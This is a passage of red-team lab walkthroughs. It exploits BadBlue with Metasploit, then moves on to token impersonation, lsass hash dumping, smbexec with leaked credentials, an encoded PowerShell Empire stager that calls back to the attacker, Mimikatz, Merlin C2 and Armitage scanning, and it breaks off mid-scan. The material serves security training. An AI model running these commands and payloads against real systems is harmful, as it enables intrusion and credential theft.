_Using searchsploit to find exploits for BadBlue 2.7._

`searchsploit badblue 2.7`:
```
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                      |  Path
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
BadBlue 2.72 - PassThru Remote Buffer Overflow                                                                      | windows/remote/4784.pl ←
BadBlue 2.72b - Multiple Vulnerabilities                                                                            | windows/remote/4715.txt
BadBlue 2.72b - PassThru Buffer Overflow (Metasploit)                                                               | windows/remote/16806.rb
-------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

_Exploiting BadBlue 2.7 to gain a Meterpreter session on `fileserver.ine.local`._

`search badblue`, `use exploit/windows/http/badblue_passthru`, `set PAYLOAD windows/meterpreter/bind_tcp`, `show options`, `set RHOSTS `, `set LPORT 5555`, `exploit`:
``` 
[*] Trying target BadBlue EE 2.7 Universal...
[*] Started bind TCP handler against 10.4.27.15:5555
[*] Sending stage (175174 bytes) to 10.4.27.15
[*] Meterpreter session 2 opened (10.4.16.233:49721 -> 10.4.27.15:5555 via session 1) at 2024-08-07 14:51:36 +0530 ←
```

_Interacting with the new Meterpreter active session._

`sessions -i 2`

<span style="color: #64b5f6;">**Target (victim 2: fileserver.ine.local) machine**</span>.

_Confirming administrative privileges on the new target._

`getuid`:
```
Server username: ATTACKDEFENSE\Administrator ←
```

_Gathering system information from the new target._

`sysinfo`:
```
Computer        : ATTACKDEFENSE
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

_Attempting to elevate privileges to SYSTEM._

`getsystem`:
```
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
```

_Successfully elevated privileges to SYSTEM._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Attempting to dump password hashes (as an alternative approach to elevate privileges to SYSTEM), but encountered an error._

`hashdump`:
```
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```

_Loading the incognito extension to manipulate tokens._

`getprivs`, `load incognito`:
```
Loading extension incognito...Success.
```

`list_tokens -u`:
```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
        Call rev2self if primary process token is SYSTEM

Delegation Tokens Available
===========================================
ATTACKDEFENSE\Administrator
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM ←
Window Manager\DWM-1

Impersonation Tokens Available
===========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-1
```

_Loading the incognito extension to manipulate tokens._

`impersonate_token "NT AUTHORITY\SYSTEM"`:
```
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
[+] Delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM ←
```

_Confirming SYSTEM privileges._

`getuid`:
```
Server username: NT AUTHORITY\SYSTEM ←
```

_Migrating the Meterpreter session to `lsass.exe`._

`pgrep lsass`:
```
600
```

`migrate 600`:
```
[*] Migrating from 4976 to 600...
[*] Migration completed successfully.
```

_Dumping password hashes from the target system._

`hashdump`:
```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:5c4d59391f656d5958dab124ffeabc20:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
student:1008:aad3b435b51404eeaad3b435b51404ee:bd4ca1fbe028f3c5066467a7f6a73b0b:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:58f8e0214224aebc2c5f82fb7cb47ca1:::
```

### Red Team Operations with Starkiller - Lab

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

_Checking the network configuration of the attacker's machine._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.6  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:06  txqueuelen 0  (Ethernet)
        RX packets 4083  bytes 321428 (313.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4113  bytes 2340067 (2.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.23.3  netmask 255.255.255.0  broadcast 10.10.23.255 ←
        ether 02:42:0a:0a:17:03  txqueuelen 0  (Ethernet)
        RX packets 12  bytes 936 (936.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 13861  bytes 33640297 (32.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13861  bytes 33640297 (32.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Verifying the hosts file for important entries, particularly the target machines._

`cat /etc/hosts`:
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.1.0.6        attackdefense.com attackdefense
127.0.0.1 AttackDefense-Kali
10.10.23.3      attackdefense.com attackdefense
10.4.17.60    demo.ine.local ←
10.4.21.77    fileServer.ine.local
```

_Ensuring the target `demo.ine.local` is reachable._

`ping -c 3 demo.ine.local`:
```
PING demo.ine.local (10.4.17.60) 56(84) bytes of data. ←
64 bytes from demo.ine.local (10.4.17.60): icmp_seq=1 ttl=125 time=11.5 ms
64 bytes from demo.ine.local (10.4.17.60): icmp_seq=2 ttl=125 time=10.5 ms
64 bytes from demo.ine.local (10.4.17.60): icmp_seq=3 ttl=125 time=10.2 ms

--- demo.ine.local ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms ←
rtt min/avg/max/mdev = 10.229/10.749/11.487/0.535 ms
```

_Performing a full port scan and service version detection on `demo.ine.local`._

`nmap -Pn -sS -sV -p- demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-06 20:14 IST
Nmap scan report for demo.ine.local (10.4.17.60)
Host is up (0.011s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
4983/tcp  open  http               Apache httpd 2.4.52 ((Win64)) ←
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49173/tcp open  msrpc              Microsoft Windows RPC
49174/tcp open  msrpc              Microsoft Windows RPC
49180/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.09 seconds
```

_Exploring a discovered HTTP service which reveals a batch script indicating potential SMB credentials._

`firefox http://demo.ine.local:4983/ &`:
```
@echo off net use "\\fileserver\C$" /user:Administrator abc_123321!@# if exist "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" ( echo "Copying errors\..." copy "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" C:\Users\local_admin\Logs\Host1\ del "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" ) else ( echo "No errors!" ) net use "\\fileserver\C$" /delete ←
```

_Using smbexec to gain a shell on the `demo.ine.local` machine._

`smbexec.py 'Administrator:abc_123321!@#'@demo.ine.local`:
```
Impacket v0.9.25.dev1+20220131.200424.badf09d - Copyright 2021 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute ←
```

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Verifying that we have SYSTEM level access on the target machine._

`whoami`:
```
nt authority\system
```

<span style="color: #4caf50;">PowerShell-Empire Server</span>.

_Starting the PowerShell-Empire server to manage agents and listeners._

`sudo powershell-empire server`:
```
[*] Loading default config
[*] Setting up database.
[*] Adding default user.
[*] Adding database config.
[*] Generating random staging key
[*] Adding default bypasses.
[*] Adding default keyword obfuscation functions.
[*] Loading stagers from: /usr/share/powershell-empire/empire/server/stagers/
[*] Loading modules from: /usr/share/powershell-empire/empire/server/modules/
[*] Loading listeners from: /usr/share/powershell-empire/empire/server/listeners/
[*] Loading malleable profiles from: /usr/share/powershell-empire/empire/server/data/profiles
[*] Searching for plugins at /usr/share/powershell-empire/empire/server/plugins/
[*] Initializing plugin...
[*] Doing custom initialization...
[*] Loading Empire C# server plugin
[*] Registering plugin with menu...
[*] Initializing plugin...
[*] Doing custom initialization...
[*] Loading websockify server plugin
[*] Registering plugin with menu...
[*] Initializing plugin...
[*] Doing custom initialization...
[*] Loading Empire reverseshell server plugin
[*] Registering plugin with menu...
[*] Empire starting up...
[*] Starting Empire RESTful API on 0.0.0.0:1337 ←
[*] Starting Empire SocketIO on 0.0.0.0:5000
[*] Testing APIs
[+] Empire RESTful API successfully started
[+] Empire SocketIO successfully started
[*] Cleaning up test user

...

[+] Plugin csharpserver ran successfully!
[+] empireadmin connected to socketio
```

<span style="color: #2196f3;">Starkiller (Client)</span>.

_Launching Starkiller, the GUI client for PowerShell-Empire._

`sudo starkiller`

Here we need to log in with our personal user account because PowerShell-Empire supports multiple users.

_Creating an HTTP listener on the attacker's machine._

`Listeners` > `Create` > `Type: http`, `Host: 10.10.23.3`, `Port: 8888`, `Submit`

_Confirming that the listener has been successfully created and is active._

`Listeners`:

| ID | Name | Module | Listener Category | Created At                               | Enabled |
|----|------|--------|-------------------|------------------------------------------|---------|
| 1  | http | http   | client_server     | 2024-08-06 22:07:20 IST (39 seconds ago) | True    |

_Generating a stager payload to establish a connection back to the HTTP listener._

`Stagers` > `Type: multi/launcher`, `Listener: http`, `Submit`

`Stagers` > `multi/launcher` (right-click) > `Copy to Clipboard`
```
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBFAHIAcwBpAG8ATgBUAGEAQgBMAGUALgBQAFMAVgBFAFIAcwBpAG8ATgAuAE0AYQBKAE8AUgAgAC0AZwBlACAAMwApAHsAJABSAEUAZgA9AFsAUgBFAEYAXQAuAEEAcwBTAEUAbQBiAGwAeQAuAEcARQB0AFQAeQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIAZQBGAC4ARwBFAFQARgBp

...

gBEAE8AVwBuAGwAbwBBAGQARABBAFQAQQAoACQAUwBlAFIAKwAkAHQAKQA7ACQAaQBWAD0AJABkAGEAdABhAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAVABhAFsANAAuAC4AJABkAEEAdABBAC4ATABFAE4ARwBUAGgAXQA7AC0ASgBPAGkATgBbAEMAaABBAFIAWwBdAF0AKAAmACAAJABSACAAJABEAEEAVABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

<span style="color: #64b5f6;">**Target (victim 1: demo.ine.local) machine**</span>.

_Executing the generated stager payload on the target machine to establish a connection._

```
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBFAHIAcwBpAG8ATgBUAGEAQgBMAGUALgBQAFMAVgBFAFIAcwBpAG8ATgAuAE0AYQBKAE8AUgAgAC0AZwBlACAAMwApAHsAJABSAEUAZgA9AFsAUgBFAEYAXQAuAEEAcwBTAEUAbQBiAGwAeQAuAEcARQB0AFQAeQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIAZQBGAC4ARwBFAFQARgBp

...

gBEAE8AVwBuAGwAbwBBAGQARABBAFQAQQAoACQAUwBlAFIAKwAkAHQAKQA7ACQAaQBWAD0AJABkAGEAdABhAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAVABhAFsANAAuAC4AJABkAEEAdABBAC4ATABFAE4ARwBUAGgAXQA7AC0ASgBPAGkATgBbAEMAaABBAFIAWwBdAF0AKAAmACAAJABSACAAJABEAEEAVABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```

<span style="color: #2196f3;">PowerShell-Empire Client</span>.

_Verifying that the agent has successfully connected back to the Empire server._

`Agents`:

| ID | Name      | Language   | Internal IP | Username         | Process    | PID  | Delay | Last Seen               | Listener |
|----|-----------|------------|-------------|------------------|------------|------|-------|-------------------------|----------|
| 1  | 9UHYCNAD* | powershell | 10.4.16.167 | WORKGROUP\SYSTEM | powershell | 3016 | 5/0.0 | 2024-08-06 22:12:18 IST | http     |
|    |           |            |             |                  |            |      |       | (2 seconds ago)         |          |

_Opening the agent's detailed view to monitor its status and perform specific actions, such as running commands or interacting with the target system's file structure._

`Agents`, `9UHYCNAD*` (right-click) > `View`

_Interacting with the newly connected agent to execute further commands._

`Interact` > `Shell Command: whoami` > `Run`:
```
nt authority\system
```

_Extracting credentials using Mimikatz, which provides hashed passwords for further exploitation._

`Interact` > `Execute Module: usemodule powershell/credentials/mimikatz/lsadump` > `Run`:
```
Hostname: attackdefense / authority\system-authority\system

  .#####.   mimikatz 2.2.0 (x64) #19041 Nov 20 2021 08:28:06
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(powershell) # lsadump::lsa /patch
Domain : ATTACKDEFENSE / S-1-5-21-2202681729-75510020-2229350343

RID  : 000001f4 (500)
User : Administrator ←
LM   : 
NTLM : 5c4d59391f656d5958dab124ffeabc20 ←

RID  : 000001f5 (501)
User : Guest
LM   : 
NTLM : 

RID  : 000003f1 (1009)
User : local_admin
LM   : 
NTLM : 89551acff8895768e489bb3054af94fd
```

Furthermore, in the `Agents` tab we have:
- `File Browser`: Allows us to navigate and interact with the file system of the compromised machine.
- `Tasks`: Displays the list of tasks and commands that have been executed or are scheduled to run on the agent.
- `View`: Provides detailed information and interaction options for the selected agent, including running additional commands, uploading/downloading files, and more.

These features enable comprehensive control and management of the compromised system, facilitating further penetration testing or Red Team operations.

---

## Custom C2 Protocol

### Custom C2 Protocol (with Merlin) - Theory/Lab

[Custom Command and Control Protocol](https://attack.mitre.org/techniques/T1094/) are used by the adversaries to communicate with malware/trojan and exfiltrate the data. These channels mimic well-known protocols (i.e. HTTP, DNS) or follow custom protocols.

Merlin is a command and control (C2) server designed for post-exploitation tasks. It provides a framework for controlling compromised machines through agents installed on those machines. Merlin utilizes modern HTTP/2 protocols to facilitate secure and efficient communication between the server and its agents. By mimicking well-known protocols or using custom ones, Merlin allows adversaries to perform various actions, such as data exfiltration, command execution, and system exploration, in a stealthy and effective manner.

**Key Features**

- Modern HTTP/2 protocol for communication.
- Supports multiple agents for large-scale operations.
- Secure communication with encryption options.
- Ability to execute commands, transfer files, and gather system information.
- Extensible framework for integrating custom functionalities.

Merlin Server is typically used in red team operations and penetration testing scenarios to simulate advanced persistent threat (APT) behaviors and assess the security posture of target systems and networks.

#### Lab Environment

In this lab, [Merlin](https://github.com/Ne0nd0g/merlin) server and agent are installed on two separate machines.
You are given access to the machine which has Merlin server installed on it.
The Merlin agent running on the other machine is periodically trying to connect to Merlin server on port 443 over HTTPS.

**Objectives**
- Start the Merlin server on the `eth1` interface.
- Once the Merlin agent connects back, retrieve the flag kept in the root directory of the other machine!

**Guidelines**
- Merlin server can be invoked using `merlinServer` command.
- Merlin agents payloads of different types can be inspected in `/root/data` directory.

**References**
- [Custom Command and Control Protocol](https://attack.mitre.org/techniques/T1094/)
- [Merlin HTTP/2 C&C](https://github.com/Ne0nd0g/merlin).

#### Lab Solution

_Retrieving help information for Merlin server command._

`merlinServer --help`:
```
#################################################
#               MERLIN SERVER                   #
#################################################
Version: 0.8.0.BETA
Build: 2c1146fa39f65c96b8ccbcd915383e16441af063
  -debug
        Enable debug output
  -i string
        The IP address of the interface to bind to (default "127.0.0.1") ←
  -p int
        Merlin Server Port (default 443) ←
  -proto string
        Protocol for the agent to connect with [h2, hq] (default "h2")
  -psk string
        Pre-Shared Key used to encrypt initial communications (default "merlin")
  -v    Enable verbose output
  -x509cert string
        The x509 certificate for the HTTPS listener (default "/root/data/x509/server.crt")
  -x509key string
        The x509 certificate key for the HTTPS listener (default "/root/data/x509/server.key")
```

_Checking network interfaces for the correct IP address._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.5  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:05  txqueuelen 0  (Ethernet)
        RX packets 917  bytes 67110 (67.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 516  bytes 377450 (377.4 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.30.39.2  netmask 255.255.255.0  broadcast 192.30.39.255 ←
        ether 02:42:c0:1e:27:02  txqueuelen 0  (Ethernet)
        RX packets 32  bytes 2316 (2.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 714 (714.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 18  bytes 1656 (1.6 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 18  bytes 1656 (1.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Starting the Merlin server on the specified IP address._

`merlinServer -i "192.30.39.2"`:
```
                               &&&&&&&&
                             &&&&&&&&&&&&
                            &&&&&&&&&&&&&&&
                          &&&&&&&&&&& &&&&
                         &&&&&&&&&&&&&  &&&&
                        &&&&&&&&&&&& &  &&&&
                       &&&&&&&&&&&&&     &&&&
                      &&&&&&&&&&&&&&&     &&&
                     &&&&&&&&&&&&&&&&&     &&&
                    &&&&&&&&&&&&&&&&&&&     &&&
                   &&&&&&&&&&&&&&&&&&&&&
                  &&&&&&&&&&&&&&&&&&&&&&&
                  &&&&&&&&&&&&&&&&&&&&&&&
                 &&&&&&&&&&&&&&&&&&&&&&&&&
                &&&&&&&&&&&&&&&&&&&&&&&&&&&
               &&&&&&&&&&&&&&&&&&&&&&&&&&&&&
              &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
             &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
       &&&&  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&   &&&
    &&&&&&  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&
  &&&&&&&   &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&   &&&&&&&
&&&&&&&&&  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&&&&
&&&&&&&&&&  &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&&&&&
&&&&&&&&&&&   &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&   &&&&&&&&&&&
&&&&&&&&&&&&&     &&&&&&&&&&&&&&&&&&&&&&&     &&&&&&&&&&&&&
  &&&&&&&&&&&&&&&          MERLIN         &&&&&&&&&&&&&&&
    &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
       &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
           &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
                   Version: 0.8.0.BETA
                   Build: 2c1146fa39f65c96b8ccbcd915383e16441af063
[-]No certificate found at /root/data/x509/server.crt
[-]Creating in-memory x.509 certificate used for this session only.
[i]Additional details: https://github.com/Ne0nd0g/merlin/wiki/TLS-Certificates
Merlin»  
[!]Listener was started using "merlin" as the Pre-Shared Key (PSK) allowing anyone decrypt message traffic.
[-]Consider changing the PSK by using the -psk command line flag.
[-]Starting h2 listener on 192.30.39.2:443 ←
```

_The agent has successfully connected to the server._

`[+]New authenticated agent checkin for 0b574407-f2fc-450d-af4e-c858bc62cb34 at 2019-12-28T11:15:14Z`

_List available commands in the Merlin server._

`help`:
```
Merlin C2 Server (version 0.8.0.BETA)

  COMMAND  |          DESCRIPTION           |    OPTIONS      
+----------+--------------------------------+----------------+
  agent    | Interact with agents or list   | interact, list  
           | agents                         |                 
  banner   | Print the Merlin banner        |                 
  exit     | Exit and close the Merlin      |                 
           | server                         |                 
  interact | Interact with an agent. Alias  |                 
           | for Empire users               |                 
  quit     | Exit and close the Merlin      |                 
           | server                         |                 
  remove   | Remove or delete a DEAD agent   
           | from the server                 
  sessions | List all agents session        |                 
           | information. Alias for MSF     |                 
           | users                          |                 
  use      | Use a function of Merlin       | module          
  version  | Print the Merlin server        |                 
           | version                        |                 
  *        | Anything else will be execute  |                 
           | on the host operating system   |                 
Main Menu Help

[i]Visit the wiki for additional information https://github.com/Ne0nd0g/merlin/wiki/Merlin-Server-Main-Menu
```

_List all active agent sessions._

`sessions`:
```
+------------------------------------+--------------+------+----------+------------+--------+
|              AGENT GUID            |   PLATFORM   | USER |   HOST   | TRANSPORT  | STATUS |
+------------------------------------+--------------+------+----------+------------+--------+
| 0b574407-f2fc-450d-af4e-c858bc62cb34 | linux/amd64 | root | victim-1 | HTTP/2 (h2) | Active |
+------------------------------------+--------------+------+----------+------------+--------+
```

_Interact with the active agent._

`interact 0b574407-f2fc-450d-af4e-c858bc62cb34`

_List available commands for interacting with the agent._

`help`:
```
+-------------------+-----------------------------------------+-----------------------------+
|     COMMAND       |              DESCRIPTION                |           OPTIONS           |
+-------------------+-----------------------------------------+-----------------------------+
| cd                | Change directories ←                    | cd ../../ OR cd c:\Users    |
| cmd               | Execute a command on the agent          | cmd ping -c 3 8.8.8.8       |
|                   | (DEPRECIATED)                           |                             |
| back              | Return to the main menu                 |                             |
| download          | Download a file from the agent          | download <remote_file>      |
| execute-shellcode | Execute shellcode                       | self, remote <pid>,         |
|                   |                                         | RtlCreateUserThread <pid>   |
| info              | Display all information about the agent ← |                             |
| kill              | Instruct the agent to die or quit       |                             |
| ls                | List directory contents                 | ls /etc OR ls C:\Users      |
| main              | Return to the main menu                 |                             |
| pwd               | Display the current working directory   | pwd                         |
| set               | Set the value for one of the agent's    | killdate, maxretry, padding,|
|                   | options                                 | skew, sleep                 |
| shell             | Execute a command on the agent          | shell ping -c 3 8.8.8.8     |
| status            | Print the current status of the agent   |                             |
| upload            | Upload a file to the agent              | upload <local_file>         |
|                   |                                         | <remote_file>               |
+-------------------+-----------------------------------------+-----------------------------+
```

_Display detailed information about the agent._

`info`:
```
+-------------------------+----------------------------------------------------+
|         Status          | Delayed                                            |
|         ID              | 0b574407-f2fc-450d-af4e-c858bc62cb34               |
|         Platform        | linux ←                                             |
|         Architecture    | amd64                                              |
|         UserName        | root ←                                             |
|         User GUID       | 0                                                  |
|         Hostname        | victim-1                                           |
|         Process ID      | 21                                                 |
|         IP              | [127.0.0.1/8 192.30.64.3/24]                       |
|         Initial Check In| 2019-12-28T11:14:56Z                               |
|         Last Check In   | 2019-12-28T11:14:56Z                               |
|         Agent Version   | 0.8.0.BETA                                         |
|         Agent Build     | 2c1146fa39f65c96b8ccbcd915383e16441af063           |
|         Agent Wait Time | 30s                                                |
|         Agent Wait Time | 3000                                               |
|         Skew            |                                                    |
|         Agent Message   | 4096                                               |
|         Padding Max     |                                                    |
|         Agent Max Retries| 7                                                 |
|         Agent Failed Check In| 0                                             |
|         Agent Kill Date | 1970-01-01T00:00:00Z                               |
|         Agent Communication Protocol| h2                                     |
+-------------------------+----------------------------------------------------+
```

_List the contents of the `/root` directory on the agent machine._

`ls /root`:
```
[-]Created job yCONnQujAj for agent 0b574407-f2fc-450d-af4e-c858bc62cb34 at 2019-12-28T11:15:32Z
```

```
[+]Results for job yCONnQujAj at 2019-12-28T11:16:16Z

Directory listing for: /root

-rw-r--r-- 2018-08-06 22:35:13 3106 .bashrc
-rw-r--r-- 2018-08-06 22:35:13  148 .profile
-rw-r--r-- 2019-12-28 11:10:37   33 flag ←
```

_Retrieve the content of the flag file._

`shell cat /root/flag`:
```
[-]Created job biTNtvTurE for agent 0b574407-f2fc-450d-af4e-c858bc62cb34 at 2019-12-28T11:17:00Z
```

```
[+]Results for job biTNtvTurE at 2019-12-28T11:17:17Z

f02dcc52da5f871c0ef1998a9cfe4993 ←
```

---

## C2 Frameworks: Armitage

### Introduction to Armitage - Theory

Armitage is a graphical user interface (GUI) for the Metasploit Framework, which is widely used for penetration testing and vulnerability assessment. Designed to facilitate collaboration among security professionals, Armitage provides an intuitive interface that simplifies the management and deployment of Metasploit’s extensive suite of exploits and payloads.

**Key Features**

- **Graphical Interface**: Provides a user-friendly GUI to interact with Metasploit, making it accessible for users of all skill levels.
- **Collaboration**: Supports team collaboration by allowing multiple users to connect to a single Metasploit instance and work together on penetration tests.
- **Visualization**: Offers visual representation of network hosts, making it easier to see relationships and vulnerabilities.
- **Automation**: Includes features for automating common tasks such as network discovery, exploitation, and post-exploitation activities.
- **Integration**: Seamlessly integrates with the Metasploit Framework, leveraging its powerful capabilities for exploitation and payload management.

Armitage enhances the functionality of the Metasploit Framework by providing a graphical interface that simplifies the execution of penetration testing tasks. Its collaborative features and visual tools make it a valuable asset for security teams conducting comprehensive security assessments and vulnerability tests.

### Port Scanning and Enumeration with Armitage - Lab

#### Lab Environment

**Goal**
This lab covers the process of performing port scanning and enumeration with Armitage.

**Pre-requisites**
- Basic familiarity with Nmap.
- Basic familiarity with the Metasploit Framework.

#### Lab Solution

_Listing target machines._

`cat /root/Desktop/target`:
```
Victim Machine 1 : 10.4.17.86 ←
Victim Machine 2 : 10.4.23.134
```

_Starting the PostgreSQL service for Metasploit._

`service postgresql start`

_Launching Armitage._

`armitage`

_Adding the target host to Armitage._

`Hosts` > `Add Hosts...` > `10.4.17.86` > `Add`

_Performing a TCP scan on the target host._

`10.4.17.86` (right-click) > `Scan`:
```
[*] Building list of scan ports and modules
[*] Launching TCP scan
msf6 > use auxiliary/scanner/portscan/tcp
msf6 auxiliary(scanner/portscan/tcp) > set RHOSTS 10.4.17.86
RHOSTS => 10.4.17.86
msf6 auxiliary(scanner/portscan/tcp) > set THREADS 24
THREADS => 24
msf6 auxiliary(scanner/portscan/tcp) > set PORTS 50000, 21, 1720, 80, 443, 143, 623, 3306, 110, 5432, 25, 22, 23, 1521, 50013, 161, 2222, 17185, 135, 8080, 4848, 1433, 5560, 512, 513, 514, 445, 5900, 5901, 5902, 5903, 5904, 5905, 5906, 5907, 5908, 5909, 5038, 111, 139, 49, 515, 7787, 2947, 7144, 9080, 8812, 2525, 2207, 3050, 5405, 1723, 1099, 5555, 921, 10001, 123, 3690, 548, 617, 6112, 6667, 3632, 783, 10050, 38292, 12174, 2967, 5168, 3628, 7777, 6101, 10000, 6504, 41523, 41524, 2000, 1900, 10202, 6503, 6070, 6502, 6050, 2103, 41025, 44334, 2100, 5554, 12203, 26000, 4000, 1000, 8014, 5250, 34443, 8028, 8008, 7510, 9495, 1581, 8000, 18881, 57772, 9090, 9999, 81, 3000, 8300, 8800, 8090, 389, 10203, 5093, 1533, 13500, 705, 4659, 20031, 16102, 6080, 6660, 11000, 19810, 3057, 6905, 1100, 10616, 10628, 5051, 1582, 65535, 105, 22222, 30000, 113, 1755, 407, 1434, 2049, 689, 3128, 20222, 20034, 7580, 7579, 38080, 12401, 910, 912, 11234, 46823, 5061, 5060, 2380, 69, 5800, 62514, 42, 5631, 902, 5985, 5986, 6000, 6001, 6002, 6003, 6004, 6005, 6006, 6007, 47001, 523, 3500, 6379, 8834
